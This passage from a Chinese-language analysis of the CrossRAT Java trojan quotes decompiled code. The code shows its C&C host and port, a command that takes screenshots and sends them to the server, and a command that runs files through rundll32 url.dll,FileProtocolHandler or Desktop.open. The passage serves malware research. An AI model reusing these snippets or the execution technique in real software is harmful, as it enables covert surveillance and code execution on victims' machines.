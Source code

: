 ```
 ...`

```

接下来，我们来看看一些更加有趣的命令，比如说截屏和DLL加载。<br>
当恶意软件从远程C&amp;C服务器接收到了字符串”0008” (‘k.u’)之后，代码所创建的对象以及解析过程如下所示：

```
public static void main(String args[])
 `{`
 …
//C&amp;C server addr
public static String b = "flexberry.com";

//C&amp;C server port
public static int c = 2223;

//handle cmd: 0008
// pass in C&amp;C addr/port
else if(args1[0].equals(k.u))
  (args = new j(crossrat.k.b, crossrat.k.c)).start();
```

…上述代码中的’j’对象定义在crossrat/j.class文件之中：

[![](https://p2.ssl.qhimg.com/t0174f221e478d59c07.png)](https://p2.ssl.qhimg.com/t0174f221e478d59c07.png)

该恶意软件会通过java.awt.Robot().createScreenCapture方法来实现屏幕截图，在将截图文件发送到远程C&amp;C服务器之前，它会把截图文件临时保存在磁盘中（文件名随机，后缀为.jpg）。<br>
另一个有意思的命令是“0009”，当恶意软件从服务器端接收到这个命令之后，它会初始化一个’i’对象，该对象实现在crossrat/i.class文件之中：<br>[![](https://p4.ssl.qhimg.com/t01b652795e2e3e9774.png)](https://p4.ssl.qhimg.com/t01b652795e2e3e9774.png)<br>
当恶意软件在Windows设备上执行时，它将会调用rundll32来加载url.dll文件，并调用自己的FileProtocolHandler方法：

```
//open a file
Runtime.getRuntime().exec(new String[] `{`
“rundll32”, “url.dll,FileProtocolHandler”, file.getAbsolutePath()
`}`);
```

url.dll是一个合法的微软代码库，它可以用来在受感染系统中启动可执行文件。比如说，在Windows平台下，下列代码将会启动计算器程序：

```
//execute a binary
Runtime.getRuntime().exec(new String[] `{`
“rundll32”, “url.dll,FileProtocolHandler”, “calc.exe”
`}`);
```

在除Windows以外的平台上，‘0009’命令将会通过Desktop.getDesktop().open()方法来执行相应的文件：

```
execute a binary
else if ((locala.a() == c.b) || (locala.a() == c.c)) `{`
try
`{`
Desktop.getDesktop().open(localFile);
`}`
```

